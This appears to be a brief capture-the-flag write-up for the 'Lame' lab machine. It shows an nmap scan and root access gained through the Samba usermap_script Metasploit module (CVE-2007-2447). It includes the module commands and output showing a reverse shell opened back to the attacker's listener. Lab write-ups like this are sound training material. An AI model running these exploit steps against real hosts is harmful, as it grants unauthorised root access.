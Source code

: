 # Lame Write-up

\# BlueBrain

## Enumeration

### Nmap

```
nmap -T4 -A -v 10.10.10.3
```

Nmap reveals vsftpd 2.3.4, OpenSSH and Samba. Vsftpd 2.3.4 does have a built-in backdoor, however it is not exploitable in this instance.

## Exploitation

Exploitation is trivial on this machine. After attempting (and failing) to enter using the “obvious” vsftpd attack vector, Samba becomes the only target. Using CVE-2007-2447, which conveniently has a Metasploit module associated with it, will immediately grant a root shell. The user flag can be obtained from `/home/makis/user.txt` and the root flag from `/root/root.txt`

Module: exploit/multi/samba/usermap_script

```
msf6 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.16.12:4444 
[*] Command shell session 1 opened (10.10.16.12:4444 -> 10.10.10.3:54003) at 2024-05-26 13:46:04 -0400

whoami 
root
```